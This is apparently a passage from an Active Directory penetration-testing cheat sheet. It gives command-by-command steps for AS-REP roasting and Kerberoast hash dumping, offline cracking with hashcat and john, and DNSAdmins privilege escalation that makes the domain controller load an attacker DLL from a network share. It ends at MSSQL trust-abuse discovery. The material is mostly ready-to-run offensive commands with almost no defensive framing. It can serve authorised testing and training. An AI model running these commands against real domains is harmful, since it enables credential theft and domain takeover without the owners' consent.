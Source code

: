https://raw.githubusercontent.com/OWASP/passfault/master/wordlists/wordlists/10k-worst-passwords.txt  
https://raw.githubusercontent.com/nidem/kerberoast/master/tgsrepcrack.py  

### AS-REP Roasting
AS-REP Roasting is a technique where the goal is to dump hashes of user accounts that have Kerberos preauthentication disabled (Do not require Kerberos preauthentication property).  
Unlike Kerberoasting, these users do not need to be service accounts.  

* Enumerate the users who have Kerberos Preauth disabled. (PowerView) 
```
Get-DomainUser -PreauthNotRequired -Verbose
```

* Request the crackable encrypted part of AS-REP that can be broken  
```
Get-ASREPHash -UserName VPNxuser-Verbose`
```

* Use john or hashcat to break hashes offline  
```
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```
```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
* Crack krbtgs (Kerberos)
```
hashcat -m 13100 ../hash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```
```
john --format=krb5tgs hash.txt wordlist/wordlist.txt 
```
### Loading arbitrary DLL
Members of the DNSAdmins group Loading arbitrary DLL with the privileges of dns.exe ( SYSTEM )  
In case the DC also serves as DNS this will give us the escalation for the DA.  

Need privileges to restart DNS service.
* Detection (enumerate the members of the DNSAdmins group
```
Get-NetGroupMember -GroupName "DNSAdmins"
Get-ADGroupMember -Identity DNSAdmins
```

* Configure DLL using dnscmd.exe (needs RSAT DNS):
```
dnscmd dcorp-dc /config /serverlevelplugindll \\<ip>\dll\mimilib.dll
sc \\dcorp-dc stop dns
sc \\dcorp-dc start dns
type c:\Windows\System32\kiwidns.log
```

### Trust Abuse - MSSQL Servers
* Discovery - SPN Scanning
```
Get-SQLInstanceDomain
```
